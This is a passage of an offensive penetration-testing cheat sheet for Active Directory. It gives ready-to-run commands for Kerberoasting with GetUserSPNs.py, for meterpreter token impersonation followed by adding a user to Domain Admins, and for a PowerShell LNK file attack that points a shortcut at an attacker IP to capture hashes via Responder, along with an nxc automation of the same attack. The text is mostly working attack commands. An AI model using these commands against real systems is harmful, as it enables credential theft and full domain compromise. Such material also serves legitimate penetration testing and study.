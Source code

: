     Also dumps out in secretsdump
    Look for DCC (Domain Cached Credentials) for cracking
  * nxc database
    ```bash
    nxcdb
    ```
### Kerberoasting
  * GetUserSPNs.py
    ```bash
    sudo GetUserSPNs.py <domain>/<user>:<password> -dc-ip <DC IP> -request
    ```
### Token Impersonation
  * Impersonate Token
    ```bash
    # From msfconsole meterpreter session
    load incognito
    list_tokens -u
    impersonate_token <domain>\\<user> # 2 slashes to escape the 2nd slash
    ```
    ```bash
    # Add a user after impersonation
    net user /add <username> <password> /domain
    # Add our new user to Domain Admins
    net group "Domain Admins" <user> /ADD /DOMAIN
    ```
  * Delegate Token
### LNK File Attack
  * with Powershell (Tries to resolve a png image back to attacker machine)
    ```powershell
    $objShell = New-Object -ComObject WScript.shell
    $lnk = $objShell.CreateShortcut("C:\test.lnk") #Add an ampersand or a tilde to move this to the top of the list in explorer
    $lnk.TargetPath = "\\192.168.138.149\@test.png" #Change to address of attack machine running responder
    $lnk.WindowStyle = 1
    $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
    $lnk.Description = "Test"
    $lnk.HotKey = "Ctrl+Alt+T"
    $lnk.Save()
    ```
  * Automated with nxc
    ```bash
    nxc smb <victim host> -d <domain> -u <username> -p <password> -M slinky -o NAME=<filename> SERVER=<attack host>
    ```
### GPP/cPassword
> Group Policy Preferences allowed admins to create group policies using embedded credentials. The encryption key for these credentials was accidentally released..
This was patched in MS14-025, but the patch didn't disable previous instances, so they may still be around.  
